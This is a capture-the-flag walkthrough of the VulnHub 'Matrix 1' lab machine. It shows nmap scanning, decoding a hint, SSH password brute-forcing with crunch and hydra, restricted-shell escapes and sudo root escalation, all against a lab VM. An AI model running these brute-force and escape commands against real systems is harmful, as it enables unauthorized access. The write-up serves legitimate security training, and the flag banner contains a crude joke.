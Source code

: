 [https://www.vulnhub.com/entry/matrix-1,259/](https://www.vulnhub.com/entry/matrix-1,259/?ref=rootandbeer.com)

Description: Matrix is a medium level boot2root challenge. The OVA has been tested on both VMware and Virtual Box.

-   Difficulty: Intermediate
-   Flags: Your Goal is to get root and read /root/flag.txt
-   Networking: DHCP: Enabled IP Address: Automatically assigned
-   Hint: Follow your intuitions ... and enumerate!

**Initial *[[Nmap]]* scan**
```bash
└─$ nmap -A 192.168.5.104    
22/tcp    open  ssh     OpenSSH 7.7 (protocol 2.0)
80/tcp    open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
```

**In page source of 192.168.5.104:31337 :**

>ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=

```bash
└─$ echo ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg= | base64 -d

echo "Then you'll see, that it is not the spoon that bends, it is only yourself. " > Cypher.matrix
└─$ curl http://192.168.5.104:31337/Cypher.matrix
```

**Multi decoded @ [https://www.cachesleuth.com/multidecoder/](https://www.cachesleuth.com/multidecoder/?ref=rootandbeer.com) :**

> *You can enter into matrix as guest, with password k1ll0rXX*
> 
> *Note: Actually, I forget last two characters so I have replaced with XX try your luck and find correct string of password.*

**Generate wordlist with *crunch* & bruteforce SSH with *hydra***

```bash
└─$ crunch 8 8 -t k1ll0r@@ -o wordlist.txt -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space

└─$ hydra -l guest -P matrix.txt ssh://192.168.5.104:22
[22][ssh] host: 192.168.5.104  login: guest password: k1ll0r7n
```

```bash
└─$ ssh guest:k1ll0r7n@192.168.5.104
```

**We are in a restricted shell with limited commands. `echo` works and we can use it to list directory contents. We can also use "source" to read files**

```bash
guest@porteus:~$ echo *
Desktop Documents Downloads Music Pictures Public Videos prog
guest@porteus:~$ echo prog/*
prog/vi
```

```bash
guest@porteus:~$ source /etc/passwd
sh: trinity:x:1001:1001::/home/trinity:/bin/bash: No such file or directory
```

**Restricted shell escape using vi method:**

>[!Optional] Option 1
> ```bash
> guest@porteus:~$ vi -c ':!/bin/sh' /dev/null
> ```

>[!Optional] Option 2
>```bash
>guest@porteus:~$ BASH_CMDS[a]=/bin/sh;a
>```

**Privilege escalation via sudo:**

```bash
guest@porteus:~$ /usr/bin/sudo -l
User guest may run the following commands on porteus:
    (ALL) ALL
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp
```

```bash
guest@porteus:~$ /usr/bin/sudo /bin/sh
```

**Enter guest password**

```bash
sh-4.4
root
```

**Capture the flag:**

```bash
sh-4.4
   _,-.                                                             
,-'  _|                  EVER REWIND OVER AND OVER AGAIN THROUGH THE
|_,-O__`-._              INITIAL AGENT SMITH/NEO INTERROGATION SCENE
|`-._\`.__ `_.           IN THE MATRIX AND BEAT OFF                 
|`-._`-.\,-'_|  _,-'.                                               
     `-.|.-' | |`.-'|_     WHAT                                     
        |      |_|,-'_`.                                            
              |-._,-'  |     NO, ME NEITHER                         
         jrei | |    _,' 
              '-|_,-'          IT'S JUST A HYPOTHETICAL QUESTION  
```

---